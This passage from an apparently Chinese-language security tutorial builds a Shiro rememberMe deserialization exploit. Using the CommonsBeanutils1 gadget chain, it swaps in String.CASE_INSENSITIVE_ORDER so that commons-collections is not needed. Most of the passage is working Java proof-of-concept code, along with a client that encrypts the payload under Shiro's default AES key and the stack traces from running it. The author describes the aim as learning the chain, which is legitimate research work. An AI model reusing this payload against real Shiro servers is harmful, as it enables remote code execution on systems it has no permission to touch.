    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```



成功弹出计算器，相对于ysoserial的话，我这条会更利于理解，他是牵扯到了对`java.math.BigInteger`的 使用，因为ysoserial为了兼容`property=lowestSetBit`，但实际上我们将 property 设置为null即可

我们之前用IDE打开之前P牛的demo，Shiro最简单的例子shirodemo。其中有几个依赖库：

1. shiro-core、shiro-web，这是shiro本身的依赖
2. javax.servlet-api、jsp-api，这是JSP和Servlet的依赖，仅在编译阶段使用，因为Tomcat中自带这
   两个依赖
3. slf4j-api、slf4j-simple，这是为了显示shiro中的报错信息添加的依赖
4. commons-logging，这是shiro中用到的一个接口，不添加会爆
   java.lang.ClassNotFoundException: org.apache.commons.logging.LogFactory 错误
5. commons-collections，为了演示反序列化漏洞，增加了commons-collections依赖

第五个CC依赖是为了演示CC6漏洞特意加的，现在如果删除的话，就不能打CC6了



但是CB依赖依旧存在，现在我们来打一下远程

```java
package Base.Unserialize.shiro;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.io.ClassResolvingObjectInputStream.*;

public class Client2 {
    public static void main(String[] args) throws Exception {
        byte[] payloads = new CommonsBeanutils1bytecode().getPayload();

        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());

    }
}
```

发过去报错如下

```
org.apache.shiro.io.SerializationException: Unable to deserialze argument byte array.
	at org.apache.shiro.io.DefaultSerializer.deserialize(DefaultSerializer.java:82)
	at org.apache.shiro.mgt.AbstractRememberMeManager.deserialize(AbstractRememberMeManager.java:514)
	at org.apache.shiro.mgt.AbstractRememberMeManager.convertBytesToPrincipals(AbstractRememberMeManager.java:431)
	at org.apache.shiro.mgt.AbstractRememberMeManager.getRememberedPrincipals(AbstractRememberMeManager.java:396)
	at org.apache.shiro.mgt.DefaultSecurityManager.getRememberedIdentity(DefaultSecurityManager.java:604)
	at org.apache.shiro.mgt.DefaultSecurityManager.resolvePrincipals(DefaultSecurityManager.java:492)
	at org.apache.shiro.mgt.DefaultSecurityManager.createSubject(DefaultSecurityManager.java:342)
	at org.apache.shiro.subject.Subject$Builder.buildSubject(Subject.java:846)
	at org.apache.shiro.web.subject.WebSubject$Builder.buildWebSubject(WebSubject.java:148)
	at org.apache.shiro.web.servlet.AbstractShiroFilter.createSubject(AbstractShiroFilter.java:292)
	at org.apache.shiro.web.servlet.AbstractShiroFilter.doFilterInternal(AbstractShiroFilter.java:359)
	at org.apache.shiro.web.servlet.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:125)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:178)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:153)
	at org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:168)
	at org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:90)
	at org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:481)
	at org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:130)
	at org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:93)
	at org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:670)
	at org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:74)
	at org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:342)
	at org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:390)
	at org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:63)
	at org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:928)
	at org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1794)
	at org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:52)
	at org.apache.tomcat.util.threads.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1191)
	at org.apache.tomcat.util.threads.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:659)
	at org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
	at java.lang.Thread.run(Thread.java:748)
Caused by: java.lang.ClassNotFoundException: Unable to load ObjectStreamClass [org.apache.commons.collections.comparators.ComparableComparator: static final long serialVersionUID = -291439688585137865L;]: 
	at org.apache.shiro.io.ClassResolvingObjectInputStream.resolveClass(ClassResolvingObjectInputStream.java:55)
	at java.io.ObjectInputStream.readNonProxyDesc(ObjectInputStream.java:1868)
	at java.io.ObjectInputStream.readClassDesc(ObjectInputStream.java:1751)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2042)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.defaultReadFields(ObjectInputStream.java:2287)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2211)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.defaultReadFields(ObjectInputStream.java:2287)
	at java.io.ObjectInputStream.defaultReadObject(ObjectInputStream.java:561)
	at java.util.PriorityQueue.readObject(PriorityQueue.java:783)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
	at org.apache.shiro.io.DefaultSerializer.deserialize(DefaultSerializer.java:77)
	... 30 more
Caused by: org.apache.shiro.util.UnknownClassException: Unable to load class named [org.apache.commons.collections.comparators.ComparableComparator] from the thread context, current, or system/application ClassLoaders.  All heuristics have been exhausted.  Class could not be found.
	at org.apache.shiro.util.ClassUtils.forName(ClassUtils.java:148)
	at org.apache.shiro.io.ClassResolvingObjectInputStream.resolveClass(ClassResolvingObjectInputStream.java:53)
	... 51 more
```

注意最后一行，没找到`org.apache.commons.collections.comparators.ComparableComparator`类，从包名即可看出，这个类是来自于commons-collections。 **commons-beanutils本来依赖于commons-collections**，但在Shiro中，它的`commons-beanutils`虽然包含了一部分`commons-collections`的类，但却不全。

这也导致，正常使用Shiro的时候不需要依赖于`commons-collections`，但反序列化利用的时候需要依赖于commons-collections。 难道没有commons-collections就无法进行反序列化利用吗？有的XD有的

### 无CC依赖

我们现在只需要找到`org.apache.commons.collections.comparators.ComparableComparator`的替代类即可，看到`BeanComparator`



在`BeanComparator`类的构造函数处，当没有显式传入 Comparator 的情况下，则默认使用ComparableComparator 。

需要满足以下几个条件:

- 实现 java.util.Comparator 接口 
- 实现 java.io.Serializable 接口 
- Java、shiro或commons-beanutils自带，且兼容性强 

通过IDEA的功能，有一个`CaseInsensitiveComparator`：

```java
private static class CaseInsensitiveComparator
            implements Comparator<String>, java.io.Serializable {
        // use serialVersionUID from JDK 1.2.2 for interoperability
        private static final long serialVersionUID = 8575799808933029326L;

        public int compare(String s1, String s2) {
            int n1 = s1.length();
            int n2 = s2.length();
            int min = Math.min(n1, n2);
            for (int i = 0; i < min; i++) {
                char c1 = s1.charAt(i);
                char c2 = s2.charAt(i);
                if (c1 != c2) {
                    c1 = Character.toUpperCase(c1);
                    c2 = Character.toUpperCase(c2);
                    if (c1 != c2) {
                        c1 = Character.toLowerCase(c1);
                        c2 = Character.toLowerCase(c2);
                        if (c1 != c2) {
                            // No overflow because of numeric promotion
                            return c1 - c2;
                        }
                    }
                }
            }
            return n1 - n2;
        }

        /** Replaces the de-serialized object. */
        private Object readResolve() { return CASE_INSENSITIVE_ORDER; }
    }
```

这个`CaseInsensitiveComparator`类是 java.lang.String 类下的一个内部私有类，继承了`Comparator` 和`Serializable` ，且位于Java的核心代码中，兼容性强，是一个完美替代品。 

我们通过 String.CASE_INSENSITIVE_ORDER 即可拿到上下文中的 CaseInsensitiveComparator 对 象，用它来实例化 BeanComparator ：

```java
public static final Comparator<String> CASE_INSENSITIVE_ORDER = new CaseInsensitiveComparator();
```

通过`CASE_INSENSITIVE_ORDER`可以获得`CaseInsensitiveComparator`实例，替换了即可

```java
package Base.Unserialize.shiro;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;

public class CommonsBeanutils1bytecode {
    public byte[] getPayload() throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(Base.Unserialize.shiro.Evil.class.getName()).toBytecode()});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        
        final BeanComparator comparator = new BeanComparator(null,String.CASE_INSENSITIVE_ORDER);

        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        
        queue.add("1");
        queue.add("1");
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        byte[] data = serialize(queue);
        return data;
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }
}
```



前面我没有说有CC依赖的调用栈，就是觉得没啥必要，现在有了最终POC，

```java
package Base.Unserialize.shiro;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;

public class CommonsBeanutils1shiro {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();

        setFieldValue(templates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(Base.Unserialize.shiro.Evil.class.getName()).toBytecode()});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator(null,String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);

        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        byte[] data = serialize(queue);
        unserialize(data);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

完整调用栈如下

```
at org.apache.commons.beanutils.PropertyUtilsBean.invokeMethod(PropertyUtilsBean.java:2163)
at org.apache.commons.beanutils.PropertyUtilsBean.getSimpleProperty(PropertyUtilsBean.java:1332)
at org.apache.commons.beanutils.PropertyUtilsBean.getNestedProperty(PropertyUtilsBean.java:770)
at org.apache.commons.beanutils.PropertyUtilsBean.getProperty(PropertyUtilsBean.java:846)
at org.apache.commons.beanutils.PropertyUtils.getProperty(PropertyUtils.java:426)
at org.apache.commons.beanutils.BeanComparator.compare(BeanComparator.java:157)
at java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:722)
at java.util.PriorityQueue.siftDown(PriorityQueue.java:688)
at java.util.PriorityQueue.heapify(PriorityQueue.java:737)
at java.util.PriorityQueue.readObject(PriorityQueue.java:797)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
at Base.Unserialize.shiro.CommonsBeanutils1shiro.unserialize(CommonsBeanutils1shiro.java:49)
at Base.Unserialize.shiro.CommonsBeanutils1shiro.main(CommonsBeanutils1shiro.java:29)
```

